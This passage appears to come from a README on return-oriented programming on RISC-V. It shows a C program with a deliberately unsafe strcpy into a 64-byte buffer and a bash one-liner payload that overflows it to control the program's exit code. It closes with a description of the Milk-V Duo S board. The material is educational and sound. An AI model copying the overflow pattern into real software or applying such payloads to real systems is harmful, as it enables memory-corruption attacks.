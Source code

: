 ```c
    printf("Empty function\n");
    return 1;
}

void vulnerable_function(char* string) {
    char buffer[64];
    test_empty();
    strcpy(buffer, string);
}

int main(int argc, char** argv) {
    vulnerable_function(argv[1]);
    return 0;
}
```

Here, after the 56th character the a6 register is overwritten with the arbitrary **HEX** value put in the exploit. If the **not_called** function was executed normally It would result in a exit code 0.
The following code will give an exit value of 1.

```bash
./rop.out "$(python3 -c 'print("A"*56 + "\x01" + "B"*15 + "\x5a\x05\x01\x00")')"
$?
> 1
```

Give that, replacing this character will give us an arbitrary value of the exit function and this means that **we can control the exit system call return value**.

<img src='img/exit_manipulation_stack.png' width='700'>

---

## Testing the MILK-V Duo S board
Milk-V Duo S is an upgraded model of Duo, featuring an upgraded **SG2000** main controller with a larger 512MB memory and expanded IO capabilities. It integrates wireless capabilities with WI-FI 6/BT 5, and comes equipped with a USB 2.0 HOST interface and a 100Mbps Ethernet port for user convenience. Supporting dual cameras (2x MIPI CSI 2-lane) and MIPI video output (MIPI DSI 2-lane), it allows for versatile applications. The device also supports switching between RISC-V and ARM boot through a switch. With enhanced functionality, Duo S is better suited for a variety of scenarios with more complex project development requirements.
